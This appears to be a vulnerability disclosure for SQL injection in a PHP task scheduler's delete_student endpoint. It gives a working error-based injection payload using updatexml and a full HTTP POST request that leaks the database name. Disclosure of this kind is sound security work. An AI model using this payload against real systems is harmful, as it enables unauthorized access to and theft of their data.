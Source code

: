 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/classes/Master.php?f=delete_student

Vulnerability location: /tss/classes/Master.php?f=delete_student, id

You need to first create the library by executing the following sql statement in the database tss_db

```sql
CREATE TABLE `student_list` ( 
  `id` int(30) NOT NULL,
  `user_id` int(30) NOT NULL,
  `name` text NOT NULL,
  `status` tinyint(1) NOT NULL DEFAULT '1',
  `delete_flag` tinyint(1) NOT NULL DEFAULT '0',
  `date_created` datetime NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `date_updated` datetime NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

db_name = tss_db;length=6

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /tss/classes/Master.php?f=delete_student HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/179392096-e1d0cc34-2383-48d1-b9d1-8ad6121c296f.png)
